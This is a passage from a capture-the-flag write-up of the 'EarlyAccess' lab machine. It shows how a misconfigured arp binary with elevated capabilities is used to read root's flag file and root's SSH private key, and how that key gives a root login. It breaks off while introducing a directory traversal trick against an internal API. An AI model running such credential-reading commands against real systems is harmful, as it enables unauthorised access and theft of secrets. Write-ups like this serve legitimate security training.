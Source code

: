 Now that we know that `arp` is effectively set to a suid binary, let us find a way to exploit it. Looking at [GTFOBins ARP](https://gtfobins.github.io/gtfobins/arp/), we find that it is possible get arbitrary file-read using arp. Using this we can read root.txt.

```bash
game-adm@earlyaccess:~$ /usr/sbin/arp -v -f /root/root.txt
>> 0b971***************************
arp: format error on line 1 of etherfile /root/root.txt !
```

We successfully exploit the empty capabilities of arp to read root.txt. We can also read root's id_rsa ssh-key to gain permanent access to the machine.

```bash
game-adm@earlyaccess:~$ /usr/sbin/arp -v -f /root/.ssh/id_rsa
>> -----BEGIN OPENSSH PRIVATE KEY-----
-----BEGIN: Unknown host
arp: cannot set entry on line 1 of etherfile /root/.ssh/id_rsa !
[....]
>> fD4WoE/0eunE1VUAAAAQcm9vdEBlYXJseWFjY2VzcwECAw==
arp: format error on line 26 of etherfile /root/.ssh/id_rsa !
>> -----END OPENSSH PRIVATE KEY-----
-----END: Unknown host
arp: cannot set entry on line 27 of etherfile /root/.ssh/id_rsa !
```

After re-formatting the input by hand (removing arp format error), we can use the ssh-key to login into the box.

```bash
root@void:~# ssh -i id_rsa root@earlyaccess.htb
Linux earlyaccess 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Sep  5 15:58:25 2021 from 10.10.14.6
root@earlyaccess:~#
```

## Bonus Content

### Directory traversal vulnerability as admin to leak magic_num

My friend firefart found an unintended solution, that I decided to keep, as it seemed fitting. As the admin can see all messages coming from the API after `DEBUG`, he can inject a directory traversal payload into the HTTP request that is forwarded to the API.

The API-requests done by the website looks like this: `http://api:5000/verify/<KEY>`.

If the admin would simply specify `.` following error is returned.
